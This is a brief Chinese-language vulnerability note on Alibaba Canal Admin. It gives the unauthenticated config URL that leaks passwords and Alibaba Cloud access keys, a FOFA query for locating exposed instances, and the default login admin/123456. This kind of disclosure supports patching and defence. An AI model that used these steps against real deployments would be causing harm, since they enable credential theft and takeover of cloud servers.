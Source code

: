 # Alibaba Canal config 云密钥信息泄露漏洞

## 漏洞描述

由于/api/v1/canal/config  未进行权限验证可直接访问，导致账户密码、accessKey、secretKey等一系列敏感信息泄露

## 漏洞影响

```
Alibaba Canal
```

## FOFA

```
title="Canal Admin"
```

## 漏洞复现

验证漏洞的Url为

```plain
/api/v1/canal/config/1/0
```

![](./images/202202102002400.png)



其中泄露了 aliyun.access 密钥，可以控制密钥下的所有服务器



云密钥泄露参考: red.peiqi.tech

其中还含有默认口令 **admin/123456**



![](./images/202202102002074.png)